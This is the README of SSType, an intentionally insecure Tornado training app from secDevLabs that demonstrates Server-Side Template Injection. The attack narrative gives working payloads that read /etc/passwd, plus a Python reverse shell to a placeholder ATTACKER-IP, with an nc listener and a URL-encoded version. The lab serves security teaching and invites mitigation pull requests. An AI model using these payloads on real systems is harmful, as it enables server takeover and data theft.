 # SSType

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center"><img  src="src/images/ssti-logo.png"/></p>

SSType is a simple Python web application that contains an example of a Server-Side Template Injection vulnerability in Tornado. In this example, a specific subcategory of Injection will be exemplified: Server Side Injection or SSTI.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **Server-Side Template Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to secDevLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a3/sstype
```

```sh
make install
```

Then simply visit [localhost:10001][app], as exemplified below:

<p align="center"><img  src="images/SSType.jpg"/></p>

## Get to know the app 💉

To properly understand how this application works, you can do some search using `name` as a query string using a [browser](http://localhost:10001/?name=Vitor) or using `curl` in a terminal:

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"><img  src="images/attack0.png"/></p>

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of OS commands

After reviewing the application code, it was possible to see that the user input (`name` querystring variable) is not being handled properly before being rendered in the template, as shown in the following code snippets:

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

To confirm that the input field is vulnerable, the following payload could be used to test if the result of `4*4` could be rendered in the page:

```
http://localhost:10001/?name={{4*4}}
```

When this request gets to the application, `NAMEHERE` will be replaced into the HTML and it will execute the math, returning `16`:

```html
<h3>Hello: {{4*4}}</h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"><img  src="images/attack1.png"/></p>

### 🔥

An attacker could now create any malicious command that, in theory, it will be executed. The first step we could do is trying to read the content of the `/etc/passwd` file. To do that, we will use the following Python command as the `name` query string:

```python
{%import os%}{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"><img  src="images/attack2.png"/></p>

Great! Now that we can execute commands on the server hosting the application, a malicious Python script to provide us a shell somehow on the victim's server can be created. Let's take a look at the following example:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell
p=subprocess.call(["/bin/bash","-i"]);
```

To receive a reverse shell, we first need to use `nc` in our terminal to listen for any connections coming to our `ATTACKER-IP` and `ATTACKER-PORT` and later execute this Python script on the victim server:

```sh
nc -nlv ATTACKER-PORT
```

But how can we use this payload inside the `name` parameter? To do so, we could compact it using multiples `;` to separate each instruction, resulting in the following payload:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{%import os%}{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

However, as there might be some special characters in this string, we need to escape them before injecting it in the vulnerable application (this [online URL encoder](https://www.urlencoder.org/) may help) and hope for a shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to run commands on the server.

## PR solutions

[Spoiler alert] To understand how this vulnerability can be mitigated, check [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3ASSType)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10001
